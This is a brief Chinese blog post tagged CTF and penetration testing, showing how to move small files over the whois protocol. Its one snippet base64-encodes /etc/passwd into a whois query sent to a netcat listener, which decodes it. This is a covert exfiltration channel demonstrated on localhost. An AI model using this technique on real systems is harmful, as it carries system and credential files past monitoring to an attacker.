 ```yaml
---
layout: post
categories: CTF
title: 利用Whois传输小文件。
date: 2019-09-02 10:03:13 +0800
description: 渗透安全
keywords: whois 渗透
---
```





![](http://112firshme11224.test.upcdn.net/blog/2019-12-20-17-51-54.png!100)


```bash
传输机：
root@john:~# whois -h 127.0.0.1 -p 4444 `cat /etc/passwd | base64`
接受机：
root@john:/tmp# nc -l -v -p 4444 | sed "s/ //g" | base64 -d
```


转载请注明出处，本文采用 [CC4.0](http://creativecommons.org/licenses/by-nc-nd/4.0/) 协议授权
